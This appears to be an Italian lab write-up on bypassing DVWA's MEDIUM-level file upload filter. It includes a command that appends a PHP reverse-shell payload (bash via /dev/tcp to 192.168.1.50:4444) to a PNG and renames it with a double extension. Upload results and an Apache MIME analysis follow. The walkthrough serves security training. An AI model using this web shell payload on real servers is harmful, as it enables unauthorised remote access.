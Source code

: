 ### Livello MEDIUM - Protezioni Intermediate

#### Security Controls Analysis

Il livello MEDIUM introduce controlli più sofisticati:

**Protezioni identificate durante l'analisi**:
1. **MIME Type Validation**: Controllo del Content-Type header
2. **Extension Blacklist**: Lista di estensioni proibite (`.php`, `.php3`, `.php4`, `.php5`)
3. **File Size Limits**: Limiti sulla dimensione massima del file
4. **Basic Content Inspection**: Controlli superficiali sul contenuto

#### First Bypass Attempt - Failure Analysis

**Tentativo iniziale fallito**:
```bash
# Upload di shell.php diretto
# Result: "Your image was not uploaded. We can only accept JPEG or PNG images"
```

Questo errore ha rivelato che il sistema implementa:
- Whitelist per tipi MIME (solo JPEG/PNG accettati)
- Blacklist per estensioni PHP
- Messaggio di errore specifico che conferma la natura del filtro

#### Content Injection Technique

**Sviluppo del bypass - Fase 1**:
```bash
# Creazione di base con immagine reale
cat image.png > shell.png
echo "<?php exec('/bin/bash -c \"bash -i >& /dev/tcp/192.168.1.50/4444 0>&1\"'); ?>" >> shell.png
mv shell.png shell.php.png
```

**Analisi della tecnica**:
- **`cat image.png > shell.png`**: Copia i magic bytes e contenuto dell'immagine
- **`echo "..."`**: Appende il payload PHP alla fine del file
- **`mv`**: Rinomina con doppia estensione

**Risultato del primo test**:
```
Upload successful: ./../hackable/uploads/shell.php.png
```

Tuttavia, quando accessibile via browser:
```
Error: Image cannot be displayed because it contains errors
```

#### Root Cause Analysis - MIME Type Deep Dive

L'errore indicava che Apache stava tentando di servire il file come immagine invece che processarlo come PHP. Questo ha portato all'identificazione del problema fondamentale:

**Apache Configuration Analysis**:
```apache
# Default Apache MIME configuration
AddType application/x-httpd-php .php
AddType application/x-httpd-php .phtml
# .php.png non è configurato per essere processato come PHP
```
